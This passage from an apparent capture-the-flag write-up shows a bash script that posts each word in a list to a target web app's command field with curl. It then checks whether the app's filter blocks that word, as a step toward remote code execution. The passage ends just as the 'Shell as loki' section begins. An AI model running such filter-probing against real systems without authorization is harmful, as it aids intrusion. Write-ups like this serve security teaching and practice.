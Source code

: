     </body>
    <.md>
    Command is not allowed.



Neat. Ok. Now I'll write a bash script that loops over a given word
list, and POSTs that word as the command using curl, and checks to see
if it's blocked. I'll even add some [colored
output](https://misc.flogisoft.com/bash/tip_colors_and_formatting) to
make it more readable:



    #/bin/bash

    command_file=$1
    for cmd in $(cat ${command_file}); do
        curl -s -6 -X POST "http://[dead:beef::250:56ff:feb2:7cff]:80/" -H "Cookie: PHPSESSID=697rbtjrbikamspvck4p3u309d" -d "command=${cmd}" | grep -q "Command is not allowed."
        if [ $? -eq 1 ]; then
            echo -e "  \e[42m${cmd}\e[49m allowed";
        else
            echo -e "  \e[41m${cmd}\e[49m blocked";
        fi;
    done



![](/img/1546523176280.png)

In [Beyond Root](#web-application-filtering), I'll take a look at how
the site was filtering.

## Shell as loki

### View RCE Results
